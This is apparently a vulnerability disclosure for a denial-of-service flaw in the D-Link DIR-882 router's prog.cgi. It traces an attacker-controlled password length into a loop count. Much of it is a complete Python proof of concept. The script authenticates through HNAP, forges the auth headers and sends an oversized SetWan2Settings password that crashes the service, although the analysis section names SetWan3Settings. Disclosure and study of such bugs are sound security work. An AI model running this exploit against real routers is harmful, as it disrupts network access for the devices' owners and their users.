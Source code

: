 # Dlink DIR-882 DOS vulnerability
## Overview
- Manufacturer's website information：https://support.dlink.com/index.aspx 
- Firmware download address ：https://support.dlink.com/ProductInfo.aspx?m=DIR-882-US

## Vulnerability information
There is an DOS vulnerability in Dlink DIR-882_A1_FW1.30B06fix03, which can cause prog.cgi to crash.

## Affected version
![](pic/version.png "")
Figure shows the latest firmware ：A1_FW1.30B06fix03 of the router
## Vulnerability details
The firmware version can be found is 1.30 on the web.

![](pic/web.png "")

In prog.cgi,We can find the details in the code of setting PPPoE function in sub_46C6CC,the program passes the contents obtained by the /SetWan3Settings/Password parameter to V33.

![](pic/code1.png "")

The V33 parameter is called by the function decrypt_aes (). In the decrypt_aes () function, it is passed to the sub_427184 ().

![](pic/code2.png "")

In the function sub_427184 (), the length of the passed-in parameter is called as the number of cycles in two for loops.

![](pic/code3.png "")

Therefore, the number of cycles is controllable, and if the number of cycles is long enough, it will lead to dos.
## Vulnerability exploitation condition
Need to get cookie after logging in to execute the attack.

## Recurring vulnerabilities and POC
In order to reproduce the vulnerability, the following steps can be followed:
1. Connect physical devices
2. Attack with the following POC attacks

Poc is as follows:
```python
import math
import re
import time
from hashlib import md5

import requests

IP = '192.168.0.1'
USERNAME = 'Admin'
PASSWORD = 'dir882$$'
REPEAT_TIMES = 1

trans_5C = bytes((x ^ 0x5c) for x in range(256))
trans_36 = bytes((x ^ 0x36) for x in range(256))
blocksize = md5().block_size

def hmac_md5(key, msg):
    key, msg = key.encode(), msg.encode()
    if len(key) > blocksize:
        key = md5(key).digest()
    key += b'\x00' * (blocksize - len(key))  # padding
    o_key_pad = key.translate(trans_5C)
    i_key_pad = key.translate(trans_36)
    return md5(o_key_pad + md5(i_key_pad + msg).digest())


def hnap_auth(soap_action, private_key):
    b = math.floor(int(time.time())) % 2000000000
    b = str(b)[:-2]
    h = hmac_md5(private_key, b + '"http://purenetworks.com/HNAP1/' +
                 soap_action + '"').hexdigest().upper()
    return h + " " + b


for i in range(REPEAT_TIMES):
    headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.119 Safari/537.36',
        'Content-Type': 'text/xml; charset=UTF-8',
        'X-Requested-With': 'XMLHttpRequest',
        'SOAPAction': '"http://purenetworks.com/HNAP1/Login"'
    }

    payload = f'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><Login xmlns="http://purenetworks.com/HNAP1/"><Action>request</Action><Username>{USERNAME}</Username><LoginPassword></LoginPassword><Captcha></Captcha></Login></soap:Body></soap:Envelope>'

    r = requests.post(f'http://{IP}', data=payload, headers=headers)

    challenge = re.search(r'<Challenge>(.*?)</Challenge>', r.text).group(1)
    cookie = re.search(r'<Cookie>(.*?)</Cookie>', r.text).group(1)
    publick_key = re.search(r'<PublicKey>(.*?)</PublicKey>', r.text).group(1)

    private_key = hmac_md5(publick_key + PASSWORD,
                           challenge).hexdigest().upper()
    password = hmac_md5(private_key, challenge).hexdigest().upper()

    headers['HNAP_AUTH'] = hnap_auth("Login", private_key)
    headers['Cookie'] = f'uid={cookie}'
    payload = f'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><Login xmlns="http://purenetworks.com/HNAP1/"><Action>login</Action><Username>{USERNAME}</Username><LoginPassword>{password}</LoginPassword><Captcha></Captcha></Login></soap:Body></soap:Envelope>'

    r = requests.post(f'http://{IP}/HNAP1/', data=payload, headers=headers)
    if '<LoginResult>success</LoginResult>' in r.text:
        print('[*] Login successfully!')
    else:
        print('[!] Login failed!')
    data_password = 'A' * 230
    payload = f'''<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
	<soap:Body>
		<SetWan2Settings xmlns="http://purenetworks.com/HNAP1/">
			<Type>DynamicL2TP</Type>
			<Username>test</Username>
			<Password>{data_password}</Password>
			<MaxIdleTime>0</MaxIdleTime>
			<HostName/>
			<VPNIPAddress/>
			<VPNSubnetMask/>
			<VPNGateway/>
			<ServiceName></ServiceName>
			<AutoReconnect>true</AutoReconnect>
			<IPAddress></IPAddress>
			<SubnetMask/>
			<Gateway/>
			<ConfigDNS>
				<Primary></Primary>
				<Secondary></Secondary>
			</ConfigDNS>
			<MacAddress></MacAddress>
			<MTU>1492</MTU>
			<DsLite_Configuration/>
			<DsLite_AFTR_IPv6Address/>
			<DsLite_B4IPv4Address/>
		</SetWan2Settings>
	</soap:Body>
</soap:Envelope>'''
    headers['SOAPAction'] = '"http://purenetworks.com/HNAP1/SetWan2Settings"'
    headers['HNAP_AUTH'] = hnap_auth("SetWan2Settings", private_key)
    r = requests.post(f'http://{IP}/HNAP1/', data=payload, headers=headers)
    print(r.text)
```
After running poc, the process number of prog.cgi has changed, indicating that prog.cgi has been restarted, and normal data packets will not cause the process change.
Before running:

![](pic/a1.png "")

After running:

![](pic/a2.png "")

## CVE-ID
unsigned
